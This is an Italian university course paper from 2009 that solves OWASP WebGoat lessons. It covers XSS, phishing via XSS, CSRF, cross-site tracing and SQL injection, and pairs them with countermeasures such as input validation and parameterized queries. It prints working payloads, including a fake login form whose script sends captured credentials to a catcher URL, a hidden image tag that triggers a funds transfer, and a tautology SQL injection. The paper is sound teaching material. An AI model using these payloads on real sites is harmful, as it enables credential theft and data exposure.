\documentclass[a4paper,openright,italian]{article}
\usepackage[italian]{babel}
%\usepackage[latin1]{inputenc}

\usepackage{amsmath}
\usepackage{wasysym}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{a4wide}
\usepackage{listings}
\usepackage{sectsty}
\usepackage{titlesec}

\bibliographystyle{plain}

%\allsectionsfont{\sffamily}
%\titlelabel{\thetitle.\quad}

%\providecommand{\res}[1]{\mbox{$\mbox{Res}\left(#1\right)$}}
%\providecommand{\abs}[1]{\lvert#1\rvert}
\lstset{numbers=left}

\begin{document}
\title{Universit\`a degli Studi di Catania \\ Corso di Laurea Specialistica in Ingegneria Informatica \\ Corso di Sicurezza nei Sistemi Informativi \\ XSS e SQL Injection su OWASP WebGoat}
\author{Loris Fichera $<$loris.fichera@gmail.com$>$}
\date{2 Marzo 2009}

\pagestyle{empty}
\maketitle
\thispagestyle{empty}

\section{WebGoat}
OWASP\cite{OWASP} WebGoat\cite{WebGoat} \`e una web application scritta in Java appositamente {\it insicura} e vulnerabile ad una grande variet\`a di attacchi, creata per scopi didattici. \newline Propone delle lezioni, ciascuna delle quali inerenti una particolare vulnerabilit\`a: l'obiettivo ultimo di WebGoat \`e quello di far comprendere i meccanismi che stanno alla base dei pi\`u conosciuti attacchi alle web applications facendo indossare all'utente i panni dell'attaccante e di suggerire le contromisure da adottare per mettersi al riparo da tali attacchi. In una delle lezioni, ad esempio, gli utenti sono invitati ad utilizzare {\it SQL Injection} per rubare falsi numeri di carte di credito.

In questo paper analizzer\`o e indicher\`o come risolvere le lezioni relative ad attacchi di tipo \emph{XSS} e \emph{SQL Injection} presenti in WebGoat 5.2. La macchina su cui WebGoat \`e stata installata \`e un sistema GNU/Linux Debian Etch 4.0r4\cite{Debian}, dotata di Sun Java Development Kit 1.6, Apache Tomcat 5.5\cite{tomcat}. Il browser utilizzato \`e iceweasel\cite{iceweasel} 2.0.0.19.

\section{XSS}
Cross-site scripting \`e una tecnica di attacco che consiste nell'inserire del codice in un campo di input al fine di modificare il contenuto di una determinata pagina web. Sono vulnerabili ad attacchi XSS tutte le web applications che non implementano un sufficiente controllo dei dati in input. Le possibili applicazioni di XSS sono molteplici: dal phishing al tracciamento utenti. La potenza di un attacco XSS si basa sul fatto che \`e sufficiente compromettere una sola pagina web per colpire tutti gli utenti che la visiteranno.
\newline Gli attacchi XSS possono essere suddivisi in due sottocategorie:
\begin{itemize}
\item Stored XSS
\newline In questo caso l'attaccante \`e stato in grado di modificare permanentemente il contenuto di una pagina web.
\item Reflected XSS
\newline In questo caso l'attaccante manomette le variabili di sessione per produrre un URL che, una volta utilizzato, alterer\`a il contenuto delle pagine web in modo non permanente.
\end{itemize}
\subsection{Stored XSS}\label{storedxss}
La lezione proposta da WebGoat per questo tipo di attacco propone una web application che gestisce e mostra i profili personali dei dipendenti di una azienda. I profili dei singoli dipendenti sono visualizzabili dai loro superiori. I dipendenti possono aggiornare il proprio profilo personale. I dati inseriti dai dipendenti non sono soggetti ad alcun tipo di check. Questo consente ad un dipendente malfidato di sollevare un attacco. Mettiamoci nei panni di Tom, un dipendente, effettuiamo l'accesso e modifichiamo il campo ``indirizzo'' inserendo un semplice script Javascript:
\begin{lstlisting}[caption={Script da inserire nel campo ``indirizzo''}, label={code:tick},frame=trBL]
<script>  alert("Got Ya");  </script>
\end{lstlisting}
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_stored_1.png}
\caption{Modifica del campo ``indirizzo''}
\end{figure}
Salviamo la pagina ed effettuiamo il log out. Mettiamoci adesso nei panni di Jerry, il capo, e verifichiamo che quest'ultimo sia soggetto all'attacco. Dopo avere effettuato il log in, ecco cosa succede tentando di visualizzare il profilo di Tom:
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_stored_2.png}
\caption{Visualizzazione del profilo di Tom da parte di Jerry}
\end{figure}
\newline Lo script \`e stato eseguito contestualmente al caricamento della pagina e Jerry \`e rimasto vittima dell'attacco.
\subsection{Contromisure per lo Stored XSS}
Per proteggersi da un attacco Stored XSS la contromisura pi\`u immediata \`e quella di effettuare un accurato controllo dell'input. Nel caso dell'esempio precendente (\ref{storedxss}), lo script che aggiorna i profili dei dipendenti pu\`o essere integrato con il seguente frammento di codice:
\begin{lstlisting}[caption={Codice da integrare per il check dell'input}, label={code:storedxss},frame=trBL]
String regex = "[\\s\\w-,]*";
String stringToValidate = firstName+lastName+ssn+title+phone+
                          address1+address2+startDate+ccn+
			  disciplinaryActionDate+
                          disciplinaryActionNotes+
			  personalDescription;
Pattern pattern = Pattern.compile(regex);
validate(stringToValidate, pattern);
\end{lstlisting}
Il metodo {\it validate} prende come argomenti una stringa e un pattern e controlla che la stringa fornita rispetti le specifiche fornite dal pattern. Nel nostro caso la stringa sar\`a formata da tutti i campi di input presenti nel form del profilo utente mentre il pattern \`e un oggetto le cui caratteristiche sono specificate dalla stringa {\it regex} dichiarata all'inizio del frammento di codice: $\backslash s$ indica che sono ammessi spazi vuoti (quindi sono ammessi anche tutti i caratteri speciali $\backslash t \backslash n \backslash x 0B \backslash f \backslash r$), $\backslash w$ indica che sono ammesse stringhe contenenti lettere o numeri; infine, sono ammessi anche i caratteri ``-'' e ``,''. L'utilizzo, nella compilazione del form, di qualunque altro carattere, causer\`a una eccezione a runtime.

Un'altra possibile contromisura, meno immediata ma non meno efficace, consiste nel controllare il codice html generato ogni volta che una pagina web viene richiesta. WebGoat fornisce la classe {\it util.HtmlEncoder} il cui metodo {\it encode(String s)} prende in ingresso una stringa e la restituisce priva dei caratteri speciali eventualmente presenti in essa. Questa contromisura garantisce che le pagine generate dinamicamente non contengano codice al posto di campi testuali.

\subsection{Reflected XSS}\label{reflectedxss}
La web application gi\`a utilizzata nel paragrafo (\ref{storedxss}) permette anche di effettuare una ricerca tra i dipendenti. Non essendoci alcun controllo sull'input immesso dall'utente, inserendo del codice html nel campo testuale e avviando la ricerca, quanto inserito nel campo di ricerca viene incluso a mezzo concatenazione nel codice html della pagina dinamica che visualizza i risultati. Un attaccante pu\`o, quindi, inserire del codice Javascript nel campo di ricerca in modo da alterare la pagina dei risultati:\newline
\begin{lstlisting}[caption={Script da inserire nel campo di ricerca}, label={code:tick},frame=trBL]
<script>alert("Dangerous");</script>
\end{lstlisting}
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_reflected_1.png}
\caption{Inserimento dello script malizioso nel campo di ricerca}
\end{figure}
Come anticipato, lo script inserito nel campo di ricerca verr\`a incluso nella pagina che presenta i risultati della ricerca:
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_reflected_2.png}
\caption{Esecuzione dello script malizioso}
\end{figure}
A questo punto l'attaccante avr\`a a disposizione l'URL alterato di cui aveva bisogno per sollevare l'attacco. Potr\`a trarre in inganno degli utenti e convincerli a visitare la pagina web puntata dall'URL alterato.
\clearpage
\subsection{Contromisure per il Reflected XSS}
Anche in questo caso, la contromisura pi\`u immediata \`e quella di controllare tutti i dati in input alla web application. Nella lezione descritta nel paragrafo precedente (\ref{reflectedxss}), il metodo che si occupa di recuperare il valore del campo di ricerca \`e {\it getRequestParameter} contenuto all'interno della classe {\it lessons.CrossSiteScripting.FindProfile}. Tale metodo va modificato per rendere sicura l'applicazione:
\begin{lstlisting}[caption={getRequestParameter modificato}, label={code:reflectedxss},frame=trBL]
String regex = "[\\s\\w-,]*";
String parameter = s.getParser().getRawParameter(name);
Pattern pattern = Pattern.compile(regex);
validate(parameter, pattern);
return parameter;
\end{lstlisting}
Il comportamento di tale metodo \`e totalmente identico a quello del listing (\ref{code:storedxss}).
\subsection{Phishing}
Un attaccante pu\`o rubare dati sensibili agli utenti di una web application vulnerabile ad attacchi di tipo XSS. Risolviamo la lezione dedicata al phishing di WebGoat: abbiamo a disposizione un form per effettuare una ricerca all'interno del codice sorgente di WebGoat.
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_phishing_1.png}
\caption{XSS Phishing Lesson}
\end{figure}
Solleviamo un attacco di tipo Reflected XSS nei confronti del campo di ricerca: inseriamovi del codice html per visualizzare un form che richiede nome utente e password. Per trarre in inganno la vittima, lo stile del form fittizio dovr\`a essere molto simile allo stile della pagina web che si sta attaccando.
\newline Infine, utilizziamo uno script Javascript per rubare nome utente e password che la vittima inserir\`a nel form: 
\begin{lstlisting}[caption={Form d'autenticazione fittizio e script per rubare nome utente e password}, label={code:tick},frame=trBL]
<script>
 function hack(){ 
   alert("Had this been a real attack... 
          Your credentials were just stolen. 
          User Name = " + document.forms[0].user.value + 
          "Password = " + document.forms[0].pass.value); 
   XSSImage=new Image; 
   XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="
                + document.forms[0].user.value + "&password=" 
                + document.forms[0].pass.value + "";
 } 
</script>
<form><br><br><HR>
 <H3>This feature requires account login:</H3 >
 <br>
 <br>Enter Username:<br>
 <input type="text" id="user" name="user"><br>
 Enter Password:<br><input type="password" name = "pass"><br>
 <input type="submit" name="login" value="login" onclick="hack()">
 </form><br><br><HR>
\end{lstlisting}
Ecco l'aspetto della nuova pagina:
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_phishing_2.png}
\caption{Pagina contenente il form di autenticazione fittizio}
\end{figure}
\newline A questo punto, l'attaccante pu\`o utilizzare un URL che punti alla pagina web contenente il form fittizio e lo script necessario a rubare nome utente e password per trarre in inganno l'utente e convincerlo a visitare tale pagina. Mettiamoci nei panni della vittima e proviamo ad inserire ``loris'' come nome utente e password.
\clearpage
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_phishing_3.png}
\caption{Esecuzione dello script Javascript}
\end{figure}

\subsection{Cross-site Request Forgery (XSRF) \cite{XSRF}}
Questo tipo di attacco consiste nel far caricare al browser della vittima una pagina web contenente dei tag immagine con campo ``src'' alterato. Se il sorgente della pagina bersaglio contiene, ad esempio, {\it $<$img src="http://www.mybank.com/sendFunds.do?acctId=123456"/$>$}, il browser della vittima, durante il caricamento dell'immagine inoltrer\`a una richiesta di trasferimento fondi a {\it www.mybank.com}. Il requisito fondamentale affinch\'e l'attacco funzioni \`e che la vittima sia un cliente di {\it www.mybank.com} e che abbia una sessione aperta presso la web application della banca.
Prendiamo in esame la lezione su XSRF fornita da WebGoat - propone una web application per la gestione dei messaggi di un newsgroup - e solleviamo un attacco Stored XSS, aggiungendo un messaggio con il codice:
\begin{lstlisting}[caption={tag ``img'' da aggiungere al messaggio}, label={code:xsrfx},frame=trBL]
 <img src="http://localhost/WebGoat/attack?
  Screen=9&menu=900&transferFunds=4000"
  width="1" height="1" />
\end{lstlisting}
Impostando a ``1'' i parametri {\it width} e {\it height} ci assicuriamo che lo spazio riservato all'immagine sia minimo e, quindi, che la vittima non noti alcuna modifica alla pagina bersaglio.
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_xsrf_1.png}
\caption{Cross-site request forgery: inserimento del codice malizioso}
\end{figure}

\subsection{Cross-site Tracing \cite{XST}}
Questo tipo di attacco sfrutta il comando HTTP {\it TRACE} che permette di recuperare tutti gli headers di una pagina web, compresi quelli ``riservati'' relativi alla autenticazione e alla sessione in corso. Per ottenere tali informazioni, inseriamo il seguente frammento di codice nella pagina bersaglio:
\begin{lstlisting}[caption={tag ``img'' da aggiungere al messaggio}, label={code:xst},frame=trBL]
<script type="text/javascript">
if ( navigator.appName.indexOf("Microsoft") !=-1) 
{var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
 xmlHttp.open("TRACE", "./", false); 
 xmlHttp.send();
 str1=xmlHttp.responseText;
 while (str1.indexOf("\n") > -1) 
       str1 = str1.replace("\n","<br>"); 
 document.write(str1);
}
</script>
\end{lstlisting}
L'oggetto ActiveX creato invia il comando TRACE alla applicazione, quindi stampa a schermo la risposta.
\subsection{Altre contromisure a XSS: HTTPOnly Text}
Per prevenire attacchi XSS, Microsoft ha introdotto l'attributo di cookie {\it HTTPOnly}\cite{HTTPOnly}. Si tratta di un flag che, se settato, ordina al browser dell'utente di impedire ad eventuali script client-side di avere accesso alle informazioni contenute nel cookie. Essendo stato introdotto da poco, l'attributo {\it HTTPOnly} non \`e ancora supportato da parecchi browser.

Con WebGoat \`e possibile verificare se il proprio browser \`e in grado di gestire l'attributo {\it HTTPOnly} in maniera corretta: la web application invia il cookie ``unique2u'' al browser utente. Disattivando la gestione di {\it HTTPOnly}, e cliccando su ``Read Cookie'' verr\`a eseguito uno script che ci permetter\`a di conoscere il valore del cookie. D'altro canto, attivando la gestione di {\it HTTPOnly}, non avremo pi\`u accesso al cookie, n\'e in lettura n\'e in scrittura. Ci\`o non vuol dire che il cookie sia stato cancellato: rimane in possesso del browser che pu\`o continuare ad utilizzarlo nello scambio dati con la web application.
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_httponly_1.png}
\caption{Lettura dei cookies con HTTPOnly disattivato}
\end{figure}
\newline
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/xss_httponly_2.png}
\caption{Lettura dei cookies con HTTPOnly attivato}
\end{figure}
\clearpage
\section{SQL Injection}
SQL Injection \`e un tipo di attacco il cui bersaglio sono le web applications che fanno uso di database. Sollevare un attacco SQL Injection consiste nell'alterare le query SQL con cui la web application interroga il database, tramite manipolazione dell'input della web application stessa. \`E un attacco di tipo {\it cross-platform}, ovvero indipendente dal DBMS utilizzato. Un attacco SQL Injection pu\`o avere come obiettivo la autenticazione non autorizzata oppure la visualizzazione, manipolazione, cancellazione di dati sensibili.

Un attacco \`e di tipo String SQL Injection se ha come bersaglio un campo di input di tipo alfabetico.
Analizziamo la lezione su String SQL Injection di WebGoat: abbiamo a disposizione una web application che, dato il cognome di un cliente, restituisce i numeri di carta di credito ad esso associati. Ad esempio, inserendo ``Smith'', la web application interroga il database con la query descritta dal listing \ref{code:query_1}. Il risultato della query \`e quindi visualizzato nel browser.
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_1},frame=trBL]
  SELECT * FROM user_data WHERE last_name = 'Smith'
\end{lstlisting}
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/sql_injection_1.png}
\caption{Visualizzazione dei propri numeri di carta di credito}
\end{figure}
Attacchiamo il campo ``cognome'': inseriamo come input ``{\it $Smith' or '1' = '1$}''. La web application interrogher\`a il database con la query descritta dal listing \ref{code:query_2}.
\begin{lstlisting}[caption={Query di interrogazione alterata}, label={code:query_2},frame=trBL]
  SELECT * FROM user\_data WHERE last\_name = 'Smith' or '1' = '1'
\end{lstlisting}
Il risultato dell'interrogazione sar\`a l'insieme delle tuple della tabella {\it user\_data} per cui \`e soddisfatta la condizione {\it $last\_name = 'Smith' or '1' = '1'$}; \`e immediato constatare che tale condizione \`e sempre vera. Per cui, la web application scriver\`a in output una tabella di tutti gli utenti con i numeri di carta di credito a loro associati.
\clearpage
\begin{figure}[h]
\centering

\includegraphics[width=280pt]{images/sql_injection_2.png}
\caption{Visualizzazione dei numeri di carta di credito di altri utenti}
\end{figure}
Se l'attacco ha come bersaglio un campo numerico \`e detto di tipo Numeric SQL Injection.
\subsection{Contromisure per SQL Injection}
Una delle prime regole da seguire per proteggersi da attacchi SQL Injection \`e riassumibile in \emph{Security by Obscurity}: le pagine web non devono in alcun caso (se non in caso di debug) riportare eventuali messaggi di errore del DBMS. Tali messaggi sono informazioni preziosissime per un attaccante, indicandogli l'effetto sortito dal suo input.

Un'altra possibile contromisura \`e far uso di {\it queries parametrizzate}. Questo tipo di queries permette di utilizzare ogni input proveniente dall'utente come se fosse un parametro. Consideriamo, ad esempio, il caso del form di login gi\`a visto nel paragrafo \ref{storedxss}: la classe che si occupa di effettuare il login \`e {\it SQLInjection.Login}. Il codice di questa classe che si occupa di interrogare il database per autenticare l'utente \`e contenuta nel listing \ref{code:login_1}.
\begin{lstlisting}[caption={Frammento della classe SQLInjection.Login}, label={code:login_1},frame=trBL]
String query = "SELECT * FROM employee WHERE 
                                       userid = " + userId + " 
                                   and password = '" + password + "'";
try
{
  Statement answer_statement = WebSession.getConnection(s)
      .createStatement(ResultSet.TYPE_SCROLL_INSENSITIVE, 
                       ResultSet.CONCUR_READ_ONLY);
  ResultSet answer_results = answer_statement.executeQuery(query);
  ...
\end{lstlisting}
Come \`e possibile notare, la query viene costruita mediante concatenazione di stringhe. Utilizzando, invece, una query parametrizzata, non sar\`a possibile alterare la stringa perch\`e quanto inserito in input dall'utente verr\`a aggiunto come parametro e non, semplicemente, concatenato. Modifichiamo la classe SQLInjection.Login come mostrato nel listing \ref{code:login_2}
\begin{lstlisting}[caption={Classe SQLInjection.Login modificata}, label={code:login_2},frame=trBL]
String query = "SELECT * FROM employee WHERE userid = ? 
                                         and password = ?";
try
{
  Connection connection = WebSession.getConnections(s);
  PreparedStatement statement = connection.prepareStatement(
                                query,
                                ResultSet.TYPE_SCROLL_INSENSITIVE,
                                ResultSet.CONCUR_READ_ONLY);
  statement.setString(1, userId);
  statement.setString(2, password);
  ResultSet answer_results = statement.executeQuery();
  ...
\end{lstlisting}
In questo caso la query viene creata utilizzando ``?'' al posto degli input dell'utente e, successivamente, ``riempita''. 

\subsection{Blind SQL Injection}
L'impossibilit\`a per un attaccante di leggere eventuali report di errore pu\`o non bastare per garantire la sicurezza della propria web application. Tutte le tecniche di attacco sollevate in condizioni di assenza di messaggi di errore del DBMS vengono anche dette di {\it Blind SQL Injection}, ovvero SQL Injection {\it alla cieca}.
